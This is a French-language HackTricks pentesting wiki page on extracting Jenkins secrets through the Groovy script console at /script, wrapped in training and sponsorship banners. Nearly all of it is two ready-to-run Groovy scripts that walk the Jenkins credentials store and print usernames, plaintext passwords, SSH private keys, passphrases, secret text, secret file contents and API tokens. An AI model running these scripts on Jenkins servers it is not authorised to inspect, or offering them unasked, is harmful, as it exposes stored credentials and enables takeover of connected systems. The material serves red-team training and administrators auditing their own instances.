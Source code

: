 # Jenkins Dumping Secrets from Groovy

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

{% hint style="warning" %}
Notez que ces scripts ne listeront que les secrets à l'intérieur du fichier `credentials.xml`, mais les **fichiers de configuration de build** pourraient également contenir **plus de credentials**.
{% endhint %}

Vous pouvez **extraire tous les secrets de la console de script Groovy** dans `/script` en exécutant ce code
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### ou celui-ci :
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
